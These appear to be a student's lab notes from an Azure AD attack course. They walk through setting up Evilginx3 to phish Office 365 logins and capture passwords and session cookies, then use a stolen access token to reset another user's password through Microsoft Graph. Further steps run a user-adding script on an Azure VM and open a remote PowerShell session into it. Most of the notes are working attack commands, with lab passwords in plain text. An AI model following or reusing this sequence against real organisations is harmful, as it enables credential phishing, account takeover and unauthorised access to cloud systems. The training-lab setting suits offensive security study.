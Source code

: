# Phishing Evilginx2

* We can use Evilginx3 ([https://github.com/kgretzky/evilginx2](https://github.com/kgretzky/evilginx2)) for phishing attacks.
* Evilginx acts as a relay/man-in-the-middle between the legit web page and the target user. The user always interacts with the legit website and Evilginx captures usernames, passwords and authentication cookies.
* It uses phishlets that are configuration files for specific target domains. These are YAML files that specify conditions like hosts, filters, structure of authentication cookies and credentials.

```batch
# Start evilginx3
C:\\AzAD\\Tools\\evilginx-v3.3.0\\evilginx -p C:\\AzAD\\Tools\\evilginx-v3.3.0\\phishlets -developer

# Configure the domain
config domain student43.corp

# Set the IP for the evilginx server 
config ipv4 external 172.16.150.43

# Use the template for Office 365
phishlets hostname o365 student43.corp

# Verify the DNS entries
phishlets get-hosts o365 
```

**Setup DNS**

> username: admin password: admin@123 link: [http://172.16.2.50:5380/](http://172.16.2.50:5380/)

1. Add a zone student43.corp
2. Point the `NS` value to 172.16.2.50
3. Add `A` records for login.

```batch
phishlets enable o365

lures create o365

lures get-url 0

sessions
```

**Resetting password from the CLI**

1. Press F12 in the browser and click on Network tab. Make sure the ‘Preserver log’ checkbox is checked.
2. Go to Microsoft Entra ID (search in the search bar or use the top left burger menu).
3. In the ‘Filter’ field of network tab in the browser, search for ‘batch’ and copy the access token.
4. Now, connect to the tenant using Mg module with the token of Roy. Run the below command in a new PowerShell session:

```powershell
Connect-MgGraph -AccessToken ($Token | ConvertTo-SecureString -AsPlainText -Force)
$params = @{
     passwordProfile = @{
         forceChangePasswordNextSignIn = $false
         password = "VM@Contributor@123@321"
     }
 }

Update-MgUser -UserId "VMContributor43@defcorphq.onmicrosoft.com" -BodyParameter $params
Disconnect-MgGraph
```

```powershell
Connect-AzAccount -TenantId 2d50cb29-5f7b-48a4-87ce-fe75a941adb6
Get-AzVM -Name jumpvm -ResourceGroupName RESEARCH | fl *
Get-AzVM -Name jumpvm -ResourceGroupName RESEARCH | select -ExpandProperty NetworkProfile
Get-AzNetworkInterface -Name jumpvm741
Get-AzPublicIpAddress -Name jumpvm-ip
Invoke-AzVMRunCommand -ScriptPath C:\\AzAD\\Tools\\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'jumpvm' -ResourceGroupName 'Research' –Verbose

$password = ConvertTo-SecureString 'Stud2802Password@123' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('student2802', $password)
$jumpvm = New-PSSession -ComputerName 51.116.180.87 -Credential $creds -SessionOption (New-PSSessionOption -ProxyAccessType NoProxyServer)
Enter-PSSession -Session $jumpvm
```

